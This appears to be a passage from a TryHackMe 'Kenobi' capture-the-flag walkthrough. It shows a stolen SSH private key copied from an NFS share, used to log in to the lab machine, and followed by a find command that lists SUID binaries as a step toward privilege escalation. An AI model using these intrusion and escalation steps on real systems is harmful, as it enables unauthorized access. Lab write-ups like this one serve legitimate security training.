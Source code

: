 ```
drwxr-xr-x  5 root       root       4096 Sep  4  2019 spool
drwxrwxrwt  6 root       root       4096 Nov 25 19:43 tmp
drwxr-xr-x  3 root       root       4096 Sep  4  2019 www
```

We then need to copy the key like so

```
$ cp /tmp/id_rsa ~/Documents/tryhackme/kenobi
$ cd ..
$ sudo umount nfs
```

Then, we can finally get inside

```
$ sudo ssh -i id_rsa kenobi@10.10.68.51
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.68.51 (10.10.68.51)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.68.51' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
```

Here we were able to find the first flag or `user.txt`. We not need to elevate our privileges, I was going to try and enumerate my current sudo permissions but I don't have Kenobi's password. The next thing to see is that we can elevate the privileges with SUID Binaries. TryHackMe gave us the following command to enumerate the files and we can check with our filesystem to try finding the unusual ones.

```
$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
```